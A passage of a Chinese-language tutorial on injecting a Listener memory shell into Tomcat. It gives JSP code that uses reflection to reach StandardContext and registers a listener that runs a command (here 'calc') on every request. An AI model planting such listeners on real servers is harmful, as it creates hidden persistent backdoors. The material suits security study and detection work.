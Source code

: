 我们现在就要想，向这个数组中去添加我们的恶意listener

<font style="color:rgb(80, 80, 92);">我们可以通过 </font>`StandardContext#addApplicationEventListener()`<font style="color:rgb(80, 80, 92);"> 方法来添加 Listener</font>

```jsx
public void addApplicationEventListener(Object listener) {
        applicationEventListenersList.add(listener);
}
```

> <font style="color:rgb(80, 80, 92);background-color:rgb(247, 247, 247);">到这一步的调试就没有内容了，所以这里的逻辑有应该是和 Filter 差不多的，Listener 这里有一个 Listener 数组，对应的 Filter 里面也有一个 Filter 数组。</font>
>

<h2 id="GXNsR">实现</h2>
要实现内存马的注入，有以下两步

+ 在Listener中的`requestInitialized()`<font style="color:rgb(80, 80, 92);"> 方法里面写入恶意代码</font>
+ <font style="color:rgb(80, 80, 92);">通过 StandardContext 类的 </font>`addApplicationEventListener()`<font style="color:rgb(80, 80, 92);"> 方法把恶意的 Listener 放进去</font>

<font style="color:rgb(80, 80, 92);">首先和前两个内存马一样，通过反射来获取</font>`<font style="color:rgb(80, 80, 92);">StandardContext</font>`

```java
ServletContext servletContext =  request.getServletContext();  
    Field applicationContextField = servletContext.getClass().getDeclaredField("context");  
    applicationContextField.setAccessible(true);  
    ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);  
  
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");  
    standardContextField.setAccessible(true);  
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);  
```

接下来定义我们的恶意Listener

```java
<%!
    public class Shell_Listener implements ServletRequestListener {
 
        public void requestInitialized(ServletRequestEvent sre) {
            Runtime.getRuntime().exec("calc");
        }
 
        public void requestDestroyed(ServletRequestEvent sre) {
        }
    }
%>
```

最后就要实例化内存马，并<font style="color:rgb(80, 80, 92);">添加监听器</font>

```java
<%
	Shell_Listener shell_Listener = new Shell_Listener();
    context.addApplicationEventListener(shell_Listener);
%>
```

